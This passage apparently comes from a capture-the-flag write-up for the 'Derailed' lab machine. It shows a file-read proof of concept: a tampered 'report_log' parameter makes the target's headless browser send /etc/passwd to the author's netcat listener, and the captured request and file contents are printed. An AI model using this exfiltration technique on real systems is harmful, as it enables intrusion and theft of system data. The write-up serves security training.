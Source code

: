 #### File Read POC

It’s reasonable to think that perhaps this is trying to open a file named `report_19_07_2023.log`. I’ll update my payload to try to read a different file. `/etc/passwd` is always a good place to start. I’ll simply update the `report_log` parameter in the request, and the next time I submit the report, `passwd` arrives at `nc`:

```

oxdf@hacky$ nc -lvnp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.11.190 49876
POST / HTTP/1.1
Host: 10.10.14.6:9001
Connection: keep-alive
Content-Length: 2084
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/96.0.4664.45 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://derailed.htb:3000
Referer: http://derailed.htb:3000/
Accept-Encoding: gzip, deflate
Accept-Language: en-US

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:110::/nonexistent:/usr/sbin/nologin
postfix:x:104:111::/var/spool/postfix:/usr/sbin/nologin
_chrony:x:105:114:Chrony daemon,,,:/var/lib/chrony:/usr/sbin/nologin
_rpc:x:106:65534::/run/rpcbind:/usr/sbin/nologin
proftpd:x:107:65534::/run/proftpd:/usr/sbin/nologin
ftp:x:108:65534::/srv/ftp:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
statd:x:110:65534::/var/lib/nfs:/usr/sbin/nologin
avahi:x:111:115:Avahi mDNS daemon,,,:/run/avahi-daemon:/usr/sbin/nologin
openmediavault-webgui:x:999:996:Toby Wright,,,:/home/openmediavault-webgui:/bin/bash
admin:x:998:100:WebGUI administrator:/home/admin:/usr/sbin/nologin
openmediavault-notify:x:997:995::/home/openmediavault-notify:/usr/sbin/nologin
systemd-timesync:x:994:994:systemd Time Synchronization:/:/usr/sbin/nologin
systemd-coredump:x:993:993:systemd Core Dumper:/:/usr/sbin/nologin
rails:x:1000:100::/home/rails:/bin/bash
_laurel:x:996:992::/var/log/laurel:/bin/false
marcus:x:1001:1002:,,,:/home/marcus:/bin/bash

```